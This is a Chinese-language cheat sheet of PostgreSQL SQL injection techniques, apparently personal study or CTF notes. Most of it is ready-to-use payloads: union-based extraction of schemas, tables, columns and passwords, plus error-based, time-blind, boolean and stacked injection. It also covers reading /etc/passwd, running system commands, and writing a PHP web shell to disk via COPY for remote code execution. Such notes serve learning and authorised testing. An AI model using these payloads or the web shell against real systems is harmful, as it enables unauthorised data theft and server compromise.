

# PostgreSQL

## 安装

https://www.runoob.com/postgresql/windows-install-postgresql.html


## 介绍

PostgreSQL是一种特性非常齐全的自由软件的对象-关系型数据库管理系统（ORDBMS）。

默认端口是5432，默认用户名和数据库都是`postgres`。

## 环境

简单弄个数据表：



## 语法上的一些差别

感觉postgresql对于类型上的限制更大一下，注入前语句最好都本地测试一下。

## 常见的查询命令

```sql
select CURRENT_SCHEMA()           #查看当前权限
#一般是public，用户默认情况下具有public权限，public默认具有创建和使用schema的权限，因此意味着可以在schema中创建对象（包括表）、列出schema中的对象，并在其权限允许时访问它们。


select user                       #查看用户
#默认是postgres


select current_user               #查看当前用户
select chr(97)                    #将ASCII码转为字符
select chr(97)||chr(100)||chr(109)||chr(105)||chr(110)  #将ASCII转换为字符串


SELECT session_user;


SELECT usename FROM pg_user;
SELECT getpgusername();
select version()                  #查看PostgreSQL数据库版本
SELECT current_database()         #查看当前数据库
select length('admin')            #查看长度
 
select case when(expr1) then result1 else result2 end;  #如果xx，执行result1，否则result2
例：select case when(current_user='postgres') then pg_sleep(5) else pg_sleep(0) end;
 
select pg_read_file("/etc/passwd");          #读取文件
select system("whoami");                     #执行系统命令,11.2以下才有该命令
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';   #写入文件
```


## 联合查询

```sql
select * from users where id = 1 order by 3
select * from users where id = -1 union select 1,'2','3'--这是注释
```

获取模式名称schemaname：

```sql
select * from users where id = -1 UNION SELECT NULL,schemaname,NULL FROM pg_tables--
```

获取数据表：

```sql
select * from users where id = -1 UNION SELECT NULL,tablename,NULL FROM pg_tables where schemaname in ('public')
```

获取列名：

```sql
select * from users where id = -1 UNION SELECT NULL,attname,NULL FROM pg_namespace,pg_type,pg_attribute b JOIN pg_class a ON a.oid=b.attrelid WHERE a.relnamespace=pg_namespace.oid AND pg_type.oid=b.atttypid AND attnum>0 AND a.relname='users' AND nspname='public'
```

获取内容：

```sql
select * from users where id = -1 UNION SELECT null,null,password from users
```


当然有比较简单的查询办法，因为`postgresql`中也是有`information`表的。

```sql
select * from users where id = -1 UNION select null,null, 'table_name' from information_schema.columns where table_schema='public' and table_name<>'pg_stat_statements';

select * from users where id = -1 UNION select null,null, column_name from information_schema.columns where table_schema='public' and table_name<>'pg_stat_statements' and table_name = 'users' limit 1 offset 1;
```


## 报错注入

```sql
select * from users where id = 1 AND 1=CAST((SELECT version())::text AS NUMERIC)
--错误:  无效的类型 numeric 输入语法: "PostgreSQL 14.2, compiled by Visual C++ build 1914, 64-bit"

```


## 时间盲注

postgresql中延时函数是`pg_sleep`。

```sql
select * from users where id = -1 or 1=(select 123 from PG_SLEEP(5))

```

## 堆叠注入

和`mysql`一样用分号。

## 布尔注入

```sql
select * from users where id = -1 union select 1,(select case when 1=2 then 'a' else 'b' end),'3' --
```

postgresql中没有`if`，用的是`case when xxx then xxx else xxx end`。

## 文件操作

列目录函数`pg_ls_dir`：

```sql
select * from users where id = -1 union select null,null,pg_ls_dir('./')
```


写文件（一般用于rce）：

```sql
CREATE TABLE hacktb (t TEXT);

INSERT INTO hacktb(t) VALUES ('<?php @system("$_GET[cmd]");?>');

COPY hacktb(t) TO 'D:\1.txt';
```


读文件：

```sql
DROP table hacktb;
CREATE TABLE hacktb (t TEXT);
COPY hacktb from 'D:\flag';
select * from hacktb
```


实际上文件操作别的系列函数比如`pg_logdir_ls()、pg_ls_dir()、pg_file_rename()、pg_file_write()、 pg_read_file()、pg_length_file()`等，但是这些都会收到权限和目录的限制，根据实际情况测试使用。